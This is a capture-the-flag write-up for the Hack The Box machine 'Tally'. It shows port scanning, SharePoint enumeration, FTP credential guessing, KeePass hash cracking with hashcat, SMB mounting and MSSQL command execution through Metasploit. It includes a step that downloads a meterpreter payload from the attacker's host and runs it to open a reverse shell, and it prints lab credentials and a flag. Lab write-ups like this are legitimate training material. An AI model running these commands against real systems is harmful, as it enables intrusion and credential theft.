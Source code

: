 # Tally
#### 10.10.10.59
###### Dotaplayer365


```
nmap 10.10.10.59

PORT     STATE SERVICE
21/tcp   open  ftp
80/tcp   open  http
81/tcp   open  hosts2-ns
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
808/tcp  open  ccproxy-http
1433/tcp open  ms-sql-s
```


Checking the port 80 shows us that its a Sharepoint server.
![Alt test](https://media.giphy.com/media/hKNPxrffFH0GY/giphy.gif "Website.png")


When in Thermopylae call a SPartan
Resource: http://github.com/sensepost/SPartan
![Alt test](https://media.giphy.com/media/hKNPxrffFH0GY/giphy.gif "Spartan")

One of the pages we find has something juicy!
```
...
[+] [147][200][62875b] - http://10.10.10.59/Shared%20Documents/Forms/AllItems.aspx
...
```
![Alt test](https://media.giphy.com/media/hKNPxrffFH0GY/giphy.gif "Allitems.png")

Lets download "ftp-details.docx and see what its got
```
FTP details
hostname: tally
workgroup: htb.local
password: UTDRSCH53c"$6hys
Please create your own user folder upon logging in
```

Interesting

Now we know the ftp password.

We would just need to guess the ftp user

My general guesses as always are (root, ftpuser, ftp_user, ftp-user, ftp, user and afcourse anonymous logins)

You can call me a wordlist cause one of them worked!! :D

FTP Username: ftp_user
FTP Password: UTDRSCH53c"$6hys
```
ftp 10.10.10.59
Name (10.10.10.59:root): ftp_user
Password:
230 User logged in.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
08-31-17  10:51PM       <DIR>          From-Custodian
12-08-17  09:01AM       <DIR>          Intranet
08-28-17  05:56PM       <DIR>          Logs
09-15-17  08:30PM       <DIR>          To-Upload
09-17-17  08:27PM       <DIR>          User
226 Transfer complete.
```

As we remember it was instructed that the person create his own folder when he logs in.

So we go into Users and try searching for something nice

Under /User/Tim/Files we find something Nice !!
```
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
09-15-17  07:58PM                   17 bonus.txt
09-15-17  08:24PM       <DIR>          KeePass-2.36
09-15-17  08:22PM                 2222 tim.kdbx
```

Lets get brute forcing

Create a hash using keepass2john
```
root@kali:~/Hackthebox/Tally# keepass2john tim.kdbx 
tim:$keepass$*2*6000*222*f362b5565b916422607711b54e8d0bd20838f5111d33a5eed137f9d66a375efb*3f51c5ac43ad11e0096d59bb82a59dd09cfd8d2791cadbdb85ed3020d14c8fea*3f759d7011f43b30679a5ac650991caa*b45da6b5b0115c5a7fb688f8179a19a749338510dfe90aa5c2cb7ed37f992192*85ef5c9da14611ab1c1edc4f00a045840152975a4d277b3b5c4edc1cd7da5f0f
```

Hashcat GG
```
.\hashcat64.exe -m 13400 .\hash.txt .\rockyou.txt  --show
$keepass$*2*6000*222*f362b5565b916422607711b54e8d0bd20838f5111d33a5eed137f9d66a375efb*3f51c5ac43ad11e0096d59bb82a59dd09cfd8d2791cadbdb85ed3020d14c8fea*3f759d7011f43b30679a5ac650991caa*b45da6b5b0115c5a7fb688f8179a19a749338510dfe90aa5c2cb7ed37f992192*85ef5c9da14611ab1c1edc4f00a045840152975a4d277b3b5c4edc1cd7da5f0f:simplementeyo
```
Keepass Password: simplementeyo

After opening the kdbx with the new password we get some data which looks like this
```
TALLY ACCT share : Finance : Acc0unting
CISCO : cisco : cisco123
PDF Writer : 64257-56525-54257-54734 : 
```



=> SMB SHARE:
smbclient -L tally.htb -U Finance
WARNING: The "syslog" option is deprecated
Enter WORKGROUP\Finance's password: 
Domain=[TALLY] OS=[Windows Server 2016 Standard 14393] Server=[Windows Server 2016 Standard 6.3]

	Sharename       Type      Comment
	---------       ----      -------
	ACCT            Disk      
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
Connection to tally.htb failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
NetBIOS over TCP disabled -- no workgroup available


=> MOUNTING THE ACCT: mount -t cifs -o username=Finance,password=Acc0unting //10.10.10.59/ACCT /mnt
Strings zz_Migration\Binaries\New folder\tester.exe
DRIVER={SQL Server};SERVER=TALLY, 1433;DATABASE=orcharddb;UID=sa;PWD=GWE3V65#6KFH93@4GWTG2G;

=>  use auxiliary/admin/mssql/mssql_exec
Module options (auxiliary/admin/mssql/mssql_exec):

   Name                 Current Setting                                  Required  Description
   ----                 ---------------                                  --------  -----------
   CMD                  cmd.exe /c type C:\Users\Sarah\Desktop\user.txt  no        Command to execute
   PASSWORD             GWE3V65#6KFH93@4GWTG2G                           no        The password for the specified username
   RHOST                10.10.10.59                                      yes       The target address
   RPORT                1433                                             yes       The target port (TCP)
   TDSENCRYPTION        false                                            yes       Use TLS/SSL for TDS data "Force Encryption"
   USERNAME             sa                                               no        The username to authenticate as
   USE_WINDOWS_AUTHENT  false                                            yes       Use windows authentification (requires DOMAIN option set)

user.txt
be72362e8dffeca2b42406d5d1c74bb1


=> SHELL:
Use veil (22) powershell meterpreter reverse tcp
Get code in Tally1.bat
Start Listner

use auxiliary/admin/mssql/mssql_exec
PASSWORD             GWE3V65#6KFH93@4GWTG2G 
RHOST                10.10.10.59

set CMD powershell.exe /c Invoke-WebRequest -Uri 10.10.14.198/Tally1.bat -OutFile C:\\Users\\Sarah\\rev.bat
run
set CMD cmd.exe /c C:\\Users\\Sarah\\rev.bat
run

=> upgrade to x64
use windows/local/payload_inject 
set payload windows/x64/meterpreter/reverse_tcp

=> Root Potato Doh!


![Alt test](https://media.giphy.com/media/hKNPxrffFH0GY/giphy.gif "Suuure")

